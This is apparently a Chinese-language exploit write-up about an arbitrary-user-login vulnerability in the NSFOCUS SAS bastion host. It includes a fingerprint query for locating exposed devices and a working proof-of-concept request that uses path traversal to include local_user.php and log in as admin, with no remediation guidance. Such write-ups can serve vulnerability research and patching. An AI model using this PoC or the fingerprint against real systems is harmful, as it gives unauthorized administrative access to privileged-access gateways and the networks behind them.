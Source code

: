 # 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810132919858.png)

验证POC

```plain
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

![img](../../../.vuepress/public/img/1687844048220-9698fde6-1bdd-4068-bfa6-c5bdda190d42-20230810132919979.png)